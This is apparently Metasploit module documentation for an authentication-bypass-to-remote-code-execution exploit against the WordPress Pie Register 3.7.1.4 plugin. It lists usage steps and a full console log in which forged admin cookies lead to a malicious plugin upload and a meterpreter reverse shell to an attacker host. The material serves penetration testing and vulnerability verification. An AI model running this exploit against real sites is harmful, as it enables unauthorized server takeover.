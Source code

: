 ## Vulnerable Application

Download [pie-register.3.7.1.4.zip](https://downloads.wordpress.org/plugin/pie-register.3.7.1.4.zip).
Install and activate it.  No additional configuration is required.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/unix/webapp/wp_pie_register_bypass_rce`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should get a shell.

## Options

### USERID

The `USERID` of a valid user to generate a cookie for.  Must be an admin user.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.4 with Pie Register 3.7.1.4

```
resource (pie_register.rb)> use wp_pie_register_bypass_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_pie_register_bypass_rce  2021-10-08       excellent  Yes    WordPress Plugin Pie Register Auth Bypass to RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_pie_register_bypass_rce

[*] Using exploit/unix/webapp/wp_pie_register_bypass_rce
resource (pie_register.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (pie_register.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (pie_register.rb)> set verbose true
verbose => true
resource (pie_register.rb)> run
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/pie-register/readme.txt
[*] Found version 3.7.1.4 in the plugin
[+] The target appears to be vulnerable.
[*] Bypassing Authentiation
[*] Found cookie: wordpress_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7Cac034a6841edfa4d49e5ab75cb37b69f52a8a92bcf9ad335bd4ad77d287b5349
[*] Found cookie: wordpress_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7Cac034a6841edfa4d49e5ab75cb37b69f52a8a92bcf9ad335bd4ad77d287b5349
[*] Found cookie: wordpress_logged_in_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7C3f79f2326314d81da1e4fd4dd8b29a30a1666c8b6378ca719377cf0fd4e6dfff
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: 04f6142d66
[*] Uploaded plugin iQujVpTJNo
[*] Executing the payload at /wp-content/plugins/iQujVpTJNo/pZtgbKCrHr.php...
[*] Sending stage (39282 bytes) to 1.1.1.1
[+] Deleted pZtgbKCrHr.php
[+] Deleted iQujVpTJNo.php
[+] Deleted ../iQujVpTJNo
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:51748 ) at 2021-10-11 15:16:27 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
Meterpreter : php/linux
```
